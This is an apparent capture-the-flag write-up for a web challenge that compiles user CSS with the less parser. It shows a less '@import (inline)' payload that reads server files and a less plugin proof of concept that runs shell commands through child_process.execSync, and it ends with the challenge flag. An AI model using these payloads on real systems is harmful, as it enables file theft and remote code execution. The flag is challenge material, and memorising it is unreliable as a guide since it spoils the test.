


# ohf

## Challenge

> Use this amazing One-tap Hacking Framework to hack everything with just one tap!!!!

## Walkthrough

This challenge contained a link to a webapp with a console and CSS input field.



After digging into the console system to no avail I set my sites on the CSS input. It made a GET request to `/less?data=<base64 encoded CSS>` and then passed the response back into the pages stylesheet. I recongized this as likely a [less CSS parser](https://lesscss.org/) which has [numerous issues](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) depending on how it's implemented.

I leaked the challenge source using local file disclosure which only revealed that the CSS was indeed being parsed by less.

```css
@import (inline) "ohf_main_to_be_deployed.go";
```

```go
// ohf_main_to_be_deployed.go
// ...
r.GET("/less", func(c *gin.Context) {
  dst, err := base64.StdEncoding.DecodeString(c.Query("data"))

  fname := RandString(8)
  err = ioutil.WriteFile("/tmp/"+fname, dst, 0755)

  cmd := exec.Command("lessc", "/tmp/"+fname)
  cmd.Run()
}
// ...
```

Using the article linked earlier about [getting RCE on less](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) I copied their POC and sure enough it worked.

```js
// exploit.js
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```



## Solve

`flag{45ae12fcb357f61dcbbaae63a2b3f24f}`
